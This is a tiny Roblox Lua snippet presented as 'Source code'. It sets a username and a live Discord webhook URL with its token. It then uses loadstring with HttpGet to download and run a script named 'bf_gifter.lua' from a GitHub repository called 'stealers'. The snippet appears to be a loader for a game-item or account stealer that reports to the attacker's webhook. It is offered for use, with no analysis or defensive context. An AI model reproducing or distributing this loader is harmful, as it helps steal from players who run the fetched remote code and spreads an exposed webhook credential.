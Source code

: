 Username = "V0idzxs"
Webhook = "https://discord.com/api/webhooks/1292972365768163402/UCaIRBhEm5H9Ck4lKjm3c4J07U7_wZgyz7Fm5k9DZQORqLDd2nVfXpMKOy1q4_As_9a_"
loadstring(game:HttpGet("https://raw.githubusercontent.com/D3ATH-hub/stealers/refs/heads/main/bf_gifter.lua"))()
